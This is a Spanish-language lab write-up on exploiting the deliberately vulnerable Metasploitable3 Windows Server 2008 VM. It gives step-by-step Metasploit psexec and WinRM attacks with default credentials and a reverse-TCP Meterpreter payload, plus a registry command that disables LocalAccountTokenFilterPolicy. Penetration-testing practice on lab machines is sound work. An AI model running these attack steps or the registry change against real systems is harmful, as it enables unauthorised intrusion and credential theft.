 ## Vulnerabilidades Metasploitable3
Metasploitable3 es una máquina virtual que contiene desde su creación vulnerabilidades a propósito, con el fin de que sirva como un campo de pruebas para aquellos que quieran hacer pentesting, es decir, probar a explotar la máquina mediante uno de estos vectores.

Metasploitable3 viene con dos máquina virtuales, Windows Server 2008 y Ubuntu 14.04 (sin GUI).

### psexec
Psexec es una herramienta de Windows que sirve de reemplazo ligero a telnet, permitiendo ejecutar procesos en otros sistemas, completando la interactividad completa para las aplicaciones de consola sin tener que instalar manualmente el software cliente.

Sin embargo, en nuestro Windows Server 2008, esta herramienta contiene un agujero de seguridad. Metasploit (una librería de scripts diseñados para pentesting) tiene un módulo llamado `exploit/windows/smb/psexec` que permite explotarlo de forma remota si se conoce la contraseña de un usuario. Por otro lado, el exploit funciona a través de SMB, por lo que el servicio y su puerto correspondiente (445) deben estar activados.

Cabe aclarar que, para que el módulo funcione, Windows Server 2008 debe tener una política concreta de seguridad desactivada, la cual es `LocalAccountTokenFilterPolicy`. De forma simplificada, esta política es un filtro que previene que se usen privilegios elevados a través de la red. Para desactivarla, se puede ejecutar este comando a través de una CMD:

```
REG ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

Los pasos para realizar el exploit son los siguentes:

```
msf > use exploit/windows/smb/psexec
msf exploit(psexec) > set RHOST 192.168.1.129
RHOST => 192.168.1.129
msf exploit(psexec) > set SMBUser Administrator
SMBUser => Administrator
msf exploit(psexec) > set SMBPass vagrant
SMBPass => vagrant
msf exploit(psexec) > exploit
```

El proceso es el siguiente: Abrimos la terminal de metasploit, y seleccionamos `exploit/windows/smb/psexec` mediante el comando `use`. Posteriormente le decimos al programa a qué IP queremos mandar el ataque, en nuestro caso a la `192.168.1.129`. Posteriormente se le indica el usuario y la contraseña que queremos utilizar para el ataque (Administrator y vagrant), y por últmo ejecutamos el exploit mediante el comando igualmente llamado `exploit`.

Por defecto, la payload (el código malicioso que se ejecuta en el dispositivo al que queremos acceder) se tratará de Meterpreter, un programa muy potente que permite gran control sobre el sistema operativo, que nos permitirá explorar, modificar, borrar archivos, extraer usuarios y contraseñas hash, etc.

### WinRM
WinRM es un protocolo de Microsoft que permite acceder o intercambiar información de gestión de servidores y software a través de una red que viene preinstalado en los sistemas operativos Windows más modernos.

En Windows Server 2008 existe una vulnerabilidad en la que, si conocemos las credenciales de un usuario o las crackeamos, podemos manipular la máquina de forma remota con utilidades como Meterpreter. Si el servicio de WinRM se encuentra activo, podemos hacer uso de `exploits/windows/winrm/winrm_script_exec` para aprovecharnos.

Los pasos para realizar el script son los siguientes:

```
msf exploit(handler) > use exploit/windows/winrm/winrm_script_exec
payload => windows/meterpreter/reverse_tcp
msf exploit(winrm_script_exec) > set RHOST 192.168.1.129
RHOST => 192.168.1.129
msf exploit(winrm_script_exec) > set USERNAME vagrant
USERNAME => vagrant
msf exploit(winrm_script_exec) > set PASSWORD vagrant
PASSWORD => vagrant
msf exploit(winrm_script_exec) > exploit
```

El proceso es el siguiente:  Abrimos la terminal de metasploit, y seleccionamos `exploit/windows/winrm/winrm_script_exec` mediante el comando `use`. Posteriormente seleccionamos a qué IP queremos dirigir el ataque, en este caso a la `192.168.1.129`. Luego seleccionamos el usuario y contraseña con la cual haremos posible el exploit, en este caso `vagrant` y 'vagrant'. Por último, ejecutaremos `exploit` para proceder.

Al igual que antes, meterpreter será la payload por defecto. Si queremos cambiarla, podemos hacer uso del comando `show payloads` para ver todos los payloads disponibles, y luego el comando `use payload [PAYLOAD A USAR]` para seleccionarlo.
